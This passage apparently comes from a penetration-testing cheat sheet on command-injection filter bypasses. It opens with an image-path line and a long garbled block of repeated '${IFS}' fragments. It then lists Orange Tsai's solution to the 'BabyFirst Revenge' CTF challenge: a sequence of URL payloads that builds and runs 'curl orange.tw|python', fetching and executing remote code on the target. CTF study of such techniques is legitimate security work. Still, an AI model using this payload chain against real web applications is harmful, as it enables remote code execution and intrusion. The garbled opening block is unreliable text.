 ```bash
}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${IFS}IFS${
```bash
# From the Organge Tsai BabyFirst Revenge challenge: https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge
#Oragnge Tsai solution
## Step 1: generate `ls -t>g` to file "_" to be able to execute ls ordening names by cration date
http://host/?cmd=>ls\
http://host/?cmd=ls>_
http://host/?cmd=>\ \
http://host/?cmd=>-t\
http://host/?cmd=>\>g
http://host/?cmd=ls>>_

## Step2: generate `curl orange.tw|python` to file "g"
## by creating the necesary filenames and writting that content to file "g" executing the previous generated file
http://host/?cmd=>on
http://host/?cmd=>th\
http://host/?cmd=>py\
http://host/?cmd=>\|\
http://host/?cmd=>tw\
http://host/?cmd=>e.\
http://host/?cmd=>ng\
http://host/?cmd=>ra\
http://host/?cmd=>o\
http://host/?cmd=>\ \
http://host/?cmd=>rl\
http://host/?cmd=>cu\
http://host/?cmd=sh _
# Note that a "\" char is added at the end of each filename because "ls" will add a new line between filenames whenwritting to the file

## Finally execute the file "g"
http://host/?cmd=sh g


# Another solution from https://infosec.rm-it.de/2017/11/06/hitcon-2017-ctf-babyfirst-revenge/
```